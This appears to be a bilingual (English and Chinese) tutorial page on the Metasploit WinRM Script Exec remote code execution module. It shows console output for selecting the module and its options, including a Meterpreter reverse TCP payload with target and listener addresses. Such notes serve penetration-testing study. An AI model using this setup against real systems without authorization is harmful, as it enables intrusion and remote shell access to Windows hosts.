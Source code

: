 [WinRM Script Exec Remote Code Execution](https://www.rapid7.com/db/modules/exploit/windows/winrm/winrm_script_exec/)

This module uses valid credentials to login to the WinRM service and execute a payload. It has two available methods for payload delivery: Powershell 2 (and above) and VBS CmdStager. The module will check if Powershell is available, and if so uses that method. Otherwise it falls back to the VBS CmdStager which is less stealthy.

WinRM Script Exec 远程代码执行

此模块使用有效凭据登录 WinRM 服务并执行负载。它有两种可用的有效载荷传递方法：Powershell 2（及更高版本）和 VBS CmdStager。该模块将检查 Powershell 是否可用，如果可用，则使用该方法。否则它会回退到不太隐蔽的 VBS CmdStager。

```
msf5 auxiliary(scanner/winrm/winrm_cmd) > search winrm_script

Matching Modules
================

   #  Name                                     Disclosure Date  Rank    Check  Description
   -  ----                                     ---------------  ----    -----  -----------
   0  exploit/windows/winrm/winrm_script_exec  2012-11-01       manual  No     WinRM Script Exec Remote Code Execution


msf5 auxiliary(scanner/winrm/winrm_cmd) > use exploit/windows/winrm/winrm_script_exec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```

```
msf5 exploit(windows/winrm/winrm_script_exec) > show options

Module options (exploit/windows/winrm/winrm_script_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   DOMAIN     WORKSTATION      yes       The domain to use for Windows authentification
   FORCE_VBS  false            yes       Force the module to use the VBS CmdStager
   PASSWORD                    yes       A specific password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.0.16.20       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      5985             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   URI        /wsman           yes       The URI of the WinRM service
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME                    yes       A specific username to authenticate as
   VHOST                       no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.21.2       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
```
